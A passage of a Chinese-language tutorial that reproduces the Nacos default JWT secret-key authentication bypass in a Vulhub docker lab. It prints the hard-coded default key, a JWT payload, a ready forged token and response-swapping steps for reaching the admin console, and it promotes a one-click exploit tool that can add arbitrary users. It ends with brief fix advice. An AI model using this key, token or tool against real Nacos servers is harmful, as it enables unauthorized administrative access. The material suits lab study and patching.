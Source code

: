 <br/> 2.安装完成后，来到nacos的cve的文件夹下面，运行命令行搭建环境

```
docker-compose up -d
```

<br/> 3.这样就可以搭建一个环境，在访问你的 http://你的环境ip:8848

4.移除环境

```
docker-compose down
```

<br/> 5.同样的Vulhub里面集合了很多漏洞的环境，都应该使用上面的步骤进行搭建环境去复现

### 四 漏洞复现

1.在nacos中，token.secret.key值是固定死的，位置在conf下的application.properties中<br/> 默认的key：<br/>`SecretKey012345678901234567890123456789012345678901234567890123456789`

2.利用该默认 key可进行jwt构造，直接进入后台。<br/> 构造方法: 在https://jwt.io/ 中<br/> payload设置<br/> （1703214491是unix时间戳，设置这个参数的时候要比你系统当前的时间更晚）：​​​​​​​

```
{

"sub": "nacos",

"exp": 1703214491

}
```

把key输入到jwt的Signature当中

3.得到jwt密文，复制加密的jwt

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTcwMzIxNDQ5MX0.OnuuwTKWB7_NaZFEYtTMbwbsiJAXGwteeyYh10sLz4w
```

4.复制上面得到的值，抓包修改包，添加Authorization值，发送到nacos，获取到登录成功的带有token的响应包

5.在登陆页面随机输入任意账号密码去登陆，修改响应包为登录成功带有token的响应包

6.成功绕过登录到后台页面

### 五 工具漏洞复现

1.这款NacosExploitGUI_v3.9.jar非常简单好用，一键检测漏洞利用。<br/> 支持了六种nacos漏洞检测：
1.  `Nacos控制台默认口令漏洞(nacos,nacos)` 1.  `Nacos token.secret.key默认配置(QVD-2023-6271)` 1.  `Nacos-client Yaml反序列化漏洞` 1.  `Nacos Derby SQL注入漏洞 (CNVD-2020-67618)` 1.  `Nacos未授权访问漏洞（CVE-2021-29441）` 1.  `Nacos Jraft Hessian反序列化漏洞(QVD-2023-13065)` 
2.可以利用存在的漏洞，任意添加用户

### 六 修复建议
1.  `1.自行修改key` 1.  `2.更新到最新版本` 
### 七 工具分享
